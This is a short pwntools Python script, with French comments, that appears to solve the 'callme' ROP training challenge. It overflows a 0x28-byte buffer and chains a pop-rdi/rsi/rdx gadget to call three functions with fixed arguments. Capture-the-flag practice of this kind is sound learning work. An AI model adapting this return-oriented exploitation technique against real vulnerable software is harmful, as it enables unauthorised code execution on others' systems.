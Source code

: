 ## Script python

``` python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# break apres le read dans pwnme
gs='''
b *pwnme+87
c
'''


# Set up pwntools for the correct architecture
elf =  ELF('callme')
context.binary=elf

# Offset avant ecrasement de l'adresse de retour
offset=0x28

callme_one=elf.plt['callme_one']
callme_two=elf.plt['callme_two']
callme_three=elf.plt['callme_three']

# pop rdi ; pop rsi ; pop rdx ; ret
pop_3=0x40093c

io = process([elf.path])

if len(sys.argv)>1 and sys.argv[1] == "-d":
    gdb.attach(io,gs)
    time.sleep(1)

log.info(f"{callme_one=:x}")
log.info(f"{callme_two=:x}")
log.info(f"{callme_three=:x}")

# io.recvuntil(b"> ")

PL =b"A"*offset
PL+=p64(pop_3)
PL+=p64(0xdeadbeefdeadbeef)
PL+=p64(0xcafebabecafebabe)
PL+=p64(0xd00df00dd00df00d)
PL+=p64(callme_one)
PL+=p64(pop_3)
PL+=p64(0xdeadbeefdeadbeef)
PL+=p64(0xcafebabecafebabe)
PL+=p64(0xd00df00dd00df00d)
PL+=p64(callme_two)
PL+=p64(pop_3)
PL+=p64(0xdeadbeefdeadbeef)
PL+=p64(0xcafebabecafebabe)
PL+=p64(0xd00df00dd00df00d)
PL+=p64(callme_three)

io.sendline(PL)
io.interactive()
```
